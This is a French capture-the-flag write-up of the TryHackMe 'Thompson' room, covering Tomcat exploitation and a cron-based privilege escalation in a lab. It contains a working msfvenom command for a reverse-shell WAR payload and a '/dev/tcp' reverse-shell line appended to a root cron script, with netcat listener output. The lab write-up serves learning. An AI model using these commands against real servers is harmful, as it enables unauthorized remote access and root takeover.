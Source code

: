```yaml
---
title: Thompson (Guatemala CTF)
tags: [TryHackMe, Facile, Linux, Tomcat]
style: border
color: thm
comments: false
description: Exploitation d'un serveur Apache Tomcat
modified: 06/09/2024
---
```

Lien vers l'épreuve : <https://tryhackme.com/r/room/bsidesgtthompson>

![Easy](https://img.shields.io/badge/Difficulté-Facile-Green?logo=tryhackme)

## Sommaire <!-- omit in toc -->

* [1. Reconnaissance](#1-reconnaissance)
* [2. Visite du site](#2-visite-du-site)
* [3. Accès au serveur](#3-accès-au-serveur)
* [4. Flag utilisateur](#4-flag-utilisateur)
* [5. Élévation de privilèges](#5-élévation-de-privilèges)

---

## 1. Reconnaissance

```bash
nmap -T4 -A 10.10.216.88
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-30 15:39 CEST
Nmap scan report for 10.10.216.88
Host is up (0.057s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

L'analyse par le scanner {% include dictionary.html word="NMAP" %} nous montre que la machine héberge un serveur {% include dictionary.html word="SSH" %} sur le port 22 et un serveur Apache Tomcat sur le port 8080.

Commençons donc par analyser le site.

## 2. Visite du site

Nous arrivons sur la page par défaut d'un serveur Apache.

{% include elements/figure.html image="/images/THM/20240830/VirtualBox_Kali Hack_30_08_2024_15_47_30.png" caption="Première connexion" %}

La tentative de connexion aux outils d'administration en utilisant des identifiants potentiels comme admin/admin ou tomcat/tomcat n'a pas fonctionné.

Lorsque nous annulons finalement l'authentification, nous arrivons sur une page d'erreur particulièrement verbeuse donnant des identifiants.

{% include elements/figure.html image="/images/THM/20240830/Capture_ecran_2024-08-30_401.png" caption="Identifiants dévoilés dans la page d'erreur" %}

## 3. Accès au serveur

En navigant, nous arrivons sur une page permettant de déployer des fichiers au format {% include dictionary.html word="WAR" %}

En faisant une recherche sur la dépôt Github [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings), nous pouvons trouver une commande permettant de créer un fichier WAR malicieux permettant d'obtenir un *{% include dictionary.html word="reverse-shell" %}* :

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f war > reverse.war
```

Après avoir créé la charge avec les données correspondant à notre machine et avoir mis le port (le même qu'indiqué dans `LPORT`) de notre machine en écoute avec {% include dictionary.html word="Netcat" %}, nous pouvons téléverser le fichier `reverse.war`, puis cliquer sur le nouveau lien "reverse" qui vient d'apparaître sur l'interface.

Nous sommes à présent connecter au serveur.

```bash
nc -lvnp 9000           
listening on [any] 9000 ...
connect to [10.9.1.218] from (UNKNOWN) [10.10.216.88] 55446
id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
```

## 4. Flag utilisateur

Améliorons le shell obtenu pour faciliter la navigation :

{%- gist ab3c791e25baa7b437d0324f6d3195af -%}

L'utilisateur dont nous devons trouver les identifiants est Jack.

```bash
ls -hAl /home
total 4.0K
drwxr-xr-x 4 jack jack 4.0K Aug 23  2019 jack
```

Les 3 derniers caractères `r-x` indique que n'importe quel utilisateur peut lire ou se déplacer dans le répertoire de l'utilisateur. Mieux encore, le flag utilisateur est également lisible. Tout comme un script `id.sh` qui est également exécutable par tout le monde.

```bash
ls -hl
total 12K
-rwxrwxrwx 1 jack jack 26 Aug 14  2019 id.sh
-rw-r--r-- 1 root root 39 Aug 30 07:26 test.txt
-rw-rw-r-- 1 jack jack 33 Aug 14  2019 user.txt
```

```bash
cat user.txt
39400c[...expurgé...]f181bf
```

## 5. Élévation de privilèges

L'analyse des autres fichiers présents dans le dossier personnel de Jack ne donne pas beaucoup d'informations. Le script permet d'écrire les informations d'un utilisateur dans le fichier test.txt

```bash
ls -hl
total 12K
-rwxrwxrwx 1 jack jack 26 Aug 14  2019 id.sh
-rw-r--r-- 1 root root 39 Aug 30 07:26 test.txt
-rw-rw-r-- 1 jack jack 33 Aug 14  2019 user.txt

cat id.sh
#!/bin/bash
id > test.txt

cat test.txt
uid=0(root) gid=0(root) groups=0(root)
```

 Cependant, en relançant la commande `ls -hl` un peu plus tard, nous observons que le fichier `test.txt` a changé d'horodatage il est donc plus que probable qu'une tâche planifiée tourne sur la machine pour lancer le script id.sh :

```bash
-rw-r--r-- 1 root root 39 Aug 30 07:34 test.txt
```

En analysant le fichier `/etc/crontab` nous pouvons constater qu'il y a bien un job tournant toutes les minutes, en tant que l'utilisateur root.

```bash
* * * * *   root    cd /home/jack && bash id.sh
```

En utilisant le site [Revshells](https://www.revshells.com/) nous pouvons créer une commande à ajouter au fichier `id.sh` pour obtenir un *{% include dictionary.html word="reverse-shell" %}* non plus en tant que "tomcat" mais cette fois "root"

```bash
echo 'sh -i >& /dev/tcp/10.0.0.1/9001 0>&1' >> id.sh
```

Mettons maintenant {% include dictionary.html word="Netcat" %} en attente sur le port 9001, et attendons le passage de la tâche programmée.

```bash
nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.9.1.218] from (UNKNOWN) [10.10.216.88] 44840
sh: 0: can't access tty; job control turned off
id
uid=0(root) gid=0(root) groups=0(root)
```

Maintenant que nous avons obtenu les droits root sur la machine, il ne reste plus qu'à lire le fichier `/root/root.txt`

```bash
cat root.txt
d89d53[...expurgé...]e7ca3a
```
